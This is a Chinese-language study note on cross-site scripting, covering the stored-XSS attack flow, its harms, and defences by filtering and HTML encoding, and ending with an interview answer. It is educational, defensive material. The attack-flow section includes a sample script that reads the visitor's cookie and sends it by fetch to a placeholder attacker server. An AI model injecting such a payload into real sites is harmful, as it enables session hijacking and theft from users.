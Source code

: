 # XSS (跨站脚本攻击) 学习笔记

## 一、 什么是 XSS 攻击？

### 1.1. 定义

  - **全称**：Cross-Site Scripting (跨站脚本攻击)
  - **缩写**：`XSS` (为避免与层叠样式表 CSS `Cascading Style Sheets` 混淆)
  - **核心思想**：攻击者利用网站漏洞，将恶意的脚本代码注入到网页中，当其他用户浏览该网页时，这些恶意脚本就会在用户的浏览器上执行，从而达到攻击的目的。

### 1.2. 与 CSRF 的对比

XSS 攻击比 CSRF (跨站请求伪造) 更加直接和“无耻”。CSRF 至少还需要攻击者构建一个独立的恶意网站来诱导用户点击，而 XSS 则是直接利用被攻击网站本身来执行脚本。

## 二、 XSS 攻击原理与流程

### 2.1. 攻击流程

攻击的核心在于服务器**未对用户的输入进行充分的过滤和验证**，就将其存储并展示给其他用户。

1.  **注入恶意脚本**：攻击者在网站上可以输入内容的地方（如论坛帖子、用户评论、个人简介等）提交一段包含恶意 JavaScript 代码的内容。

    ```html
    <script>
      // 恶意代码，例如：
      // 1. 获取当前用户的 cookie
      const userCookie = document.cookie;

      // 2. 将 cookie 发送到攻击者的服务器
      fetch('http://attacker-server.com/steal-cookie', {
        method: 'POST',
        body: JSON.stringify({ cookie: userCookie })
      });
    </script>
    ```

2.  **服务器存储**：服务器接收到这段内容后，未进行任何处理或处理不当，就将其作为正常数据存入数据库。

3.  **用户请求**：一个正常的用户访问包含上述恶意内容的页面（例如，查看这篇帖子）。

4.  **执行恶意脚本**：服务器从数据库中读取该内容，并将其作为 HTML 的一部分返回给正常用户的浏览器。浏览器在解析 HTML 时，会发现并执行其中的 `<script>` 标签，导致恶意代码在正常用户的电脑上运行。

### 2.2. 攻击示意图

```mermaid
sequenceDiagram
    participant Attacker as 攻击者
    participant VictimSite as 被攻击的网站服务器
    participant VictimUser as 正常用户

    Attacker->>VictimSite: 提交包含恶意脚本的评论
    Note right of Attacker: <script>...</script>
    VictimSite->>VictimSite: (未过滤) 将脚本存入数据库
    VictimUser->>VictimSite: 请求查看该评论所在的页面
    VictimSite->>VictimUser: 返回包含恶意脚本的页面内容
    Note left of VictimUser: 浏览器收到HTML，执行了其中的<script>
    VictimUser->>Attacker: 恶意脚本执行，将用户信息(如Cookie)发送给攻击者
```

## 三、 XSS 攻击的危害

恶意脚本一旦在用户浏览器上执行，就几乎可以做到任何 JavaScript 能做到的事情，危害巨大：

1.  **窃取用户信息**：

      - 最常见的攻击目标是用户的 `Cookie`，攻击者获取 Cookie 后可以冒充用户身份，进行“会话劫持”。
      - 也可以获取 `localStorage`、`sessionStorage` 等本地存储信息。

2.  **DOM 篡改**：

      - 通过 JavaScript 动态修改页面内容，制造虚假的登录框、按钮或链接，诱骗用户输入账号密码（网络钓鱼）。
      - 将用户引导至其他恶意网站。

3.  **发起其他攻击**：

      - 将用户的浏览器作为“肉鸡”，对其他网站发起 DDoS 攻击。

## 四、 XSS 的防御策略

防御的核心原则：**永远不要信任任何用户的输入 (Never trust user input)**。防御工作主要在**服务器端**完成，客户端的防御可以作为辅助。

主要有两种防御方式：**过滤 (Sanitization)** 和 **编码 (Encoding)**。

### 4.1. 过滤 (Sanitization)

过滤是指根据规则，直接移除或替换掉用户输入中的潜在危险内容。

  - **过滤危险标签**：直接移除 `<script>`, `<iframe>`, `<object>`, `<embed>` 等可以直接执行代码或加载外部资源的标签。
  - **过滤危险属性**：即使某些标签（如 `<a>`, `<img>`）是允许的，但其特定属性也可能带来风险。
      - 移除事件处理器属性，如 `onclick`, `onerror`, `onmouseover` 等。
      - 限制 `href` 和 `src` 属性。例如，只允许链接到本站资源，防止将用户引导到外部恶意网站。
    <!-- end list -->
    ```javascript
    // 伪代码：检查 A 标签的 href 是否为站外链接
    if (a_tag.href.startsWith('http') && !a_tag.href.includes('my-safe-site.com')) {
        // 移除该链接或整个 A 标签
    }
    ```
      - 移除自定义的、可能触发特定脚本逻辑的属性（如文本中提到的 `data-url`）。

### 4.2. 编码 (Encoding / Escaping)

编码是指将用户输入的、具有特殊含义的字符转换为其对应的 HTML 实体，使其作为纯文本显示，而不会被浏览器当作 HTML 标签来解析执行。

  - **原理**：我不删除你的内容，但我让它“失效”。
  - **示例**：

| 原始输入 | 编码后输出 | 浏览器渲染结果 |
| :--- | :--- | :--- |
| `<script>` | `&lt;script&gt;` | 页面上会显示文本 `<script>` |
| `<h1>Hi</h1>` | `&lt;h1&gt;Hi&lt;/h1&gt;` | 页面上会显示文本 `<h1>Hi</h1>` |

  - **常见需要编码的字符**：

| 字符 | HTML 实体 |
| :---: | :---: |
| `<` | `&lt;` |
| `>` | `&gt;` |
| `&` | `&amp;` |
| `"` | `&quot;` |
| `'` | `&apos;` |

### 4.3. 框架中的防御

现代前端框架（如 Vue, React）通常内置了 XSS 防御机制。它们在进行数据绑定时，默认会对内容进行编码。

  - **Vue.js 示例**：

    ```javascript
    // 在 Vue 的 data 中
    data() {
      return {
        maliciousContent: '<script>alert("hacked!")</script>'
      }
    }
    ```

    ```html
    <div>{{ maliciousContent }}</div>
    <div v-html="maliciousContent"></div>
    ```

## 五、 面试题总结

**问：请介绍一下 XSS 攻击及如何防御？**

**答：**

XSS，全称跨站脚本攻击，是一种代码注入攻击。它的原理是攻击者利用 Web 应用程序的漏洞，在用户提交的内容中注入恶意的 JavaScript 脚本。如果服务器没有对这些输入做充分的校验和处理，就将其存储并展示在页面上，那么当其他正常用户浏览这个页面时，这段恶意脚本就会在他们的浏览器中执行。

**攻击的危害主要有：**

1.  **窃取用户信息**：比如盗取用户的 Cookie，进行会话劫持。
2.  **网页篡改**：在页面上插入虚假的登录框，进行网络钓鱼。
3.  **流量劫持**：将用户重定向到恶意网站。

**防御 XSS 的核心思想是“不信任任何用户输入”，主要有两种方法：**

1.  **过滤**：在服务器端设置一个白名单或黑名单，移除用户输入中危险的 HTML 标签（如 `<script>`）和属性（如 `onclick`）。
2.  **编码**：在服务器端将用户输入的特殊字符（如 `<`、`>`）转换为 HTML 实体（如 `&lt;`、`&gt;`）。这样一来，即使用户输入了脚本，浏览器也只会把它当作纯文本来显示，而不会执行它。

在实际开发中，通常会结合使用这两种方法，并且很多后端和前端框架（如 Vue、React）都内置了默认的编码防御机制。